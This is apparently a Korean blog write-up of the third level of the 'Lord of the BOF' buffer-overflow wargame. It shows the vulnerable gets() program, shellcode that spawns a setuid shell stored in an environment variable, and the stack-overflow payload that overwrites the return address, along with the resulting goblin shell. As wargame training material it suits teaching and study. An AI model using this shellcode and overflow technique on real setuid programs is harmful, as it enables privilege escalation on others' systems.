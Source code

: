 ```yaml
---
title: LOB 3번 Write-up
date: 2017-9-3 15:42:00
categories: LOB
tags: LOB, cobolt, goblin
---
```


## LOB 3번

이번 레벨은 cobolt이다. 비밀번호는 hacking exposed이다.

    [cobolt@localhost cobolt]$ ls -l
    total 16
    -rwsr-sr-x    1 goblin   goblin      11824 Feb 26  2010 goblin
    -rw-r--r--    1 root     root          193 Mar 29  2010 goblin.c
    [cobolt@localhost cobolt]$ cat goblin.c
    /*
            The Lord of the BOF : The Fellowship of the BOF
            - goblin
            - small buffer + stdin
    */
    
    int main()
    {
        char buffer[16];
        gets(buffer);
        printf("%s\n", buffer);
    }

참고를 위해 LOB 2번 문제인 cobolt의 소스도 아래에 올려두었다.

    [gremlin@localhost gremlin]$ cat cobolt.c
    int main(int argc, char *argv[])
    {
        char buffer[16];
        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
    }

### 입력방식의 차이

두 프로그램은 문자열을 받아오는 방식에 있어서 서로 다르다. 이전의 문제에서는 `strcpy`를 통해 문자열을 받아왔으나, 이번 문제에서는 프로그램 실행 후 `gets()`를 통해 문자열을 받아오는 것이다. 아래의 경우를 보며 확인해보자.

    [cobolt@localhost cobolt]$ ./goblin `python -c 'print"a"*21'`
    hello
    hello

위처럼 python으로 전달한 값은 무시되고 직접 hello를 입력한 값만 받아온다. 그렇다고 방법이 없는 것은 아니다. 아래와 같이 FTZ 3번 문제처럼 세미콜론을 사용하고, 괄호와 파이프를 적절히 조합하면 값을 전달할 수 있다.

    (python -c 'print "A"*21';cat)|./goblin

### 쉘코드
    
    [cobolt@localhost cobolt]$ export shell = `python -c 'print "\x31\xc0\xb0\x31\xc                                      d\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x6                                      8\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
    [cobolt@localhost cobolt]$ vi addr.c
    #include<stdio.h>
    int main(){
            printf("%#p \n", getenv("shell"));
    return 0;
    }
    [cobolt@localhost cobolt]$ gcc -o addr addr.c
    [cobolt@localhost cobolt]$ ./addr
    0xbfffff1c

참고로 메모리구조는 이전과 같다.

buffer(16byte)	|	SFP(4byte)	|	RET(4byte)

    [cobolt@localhost cobolt]$ ./addr
    0xbffffb34
    [cobolt@localhost cobolt]$ (python -c 'print "A"*16 + "\x90"*4 + "\x34\xfb\xff\xbf"';cat)|./goblin
    AAAAAAAAAAAAAAAA4ûÿ¿
    id
    uid=503(goblin) gid=502(cobolt) egid=503(goblin) groups=502(cobolt)
    my-pass
    euid = 503
    hackers proof

문제 소스는 비슷한데, 원리를 찾아보고 하니 생각보다 어려워진다.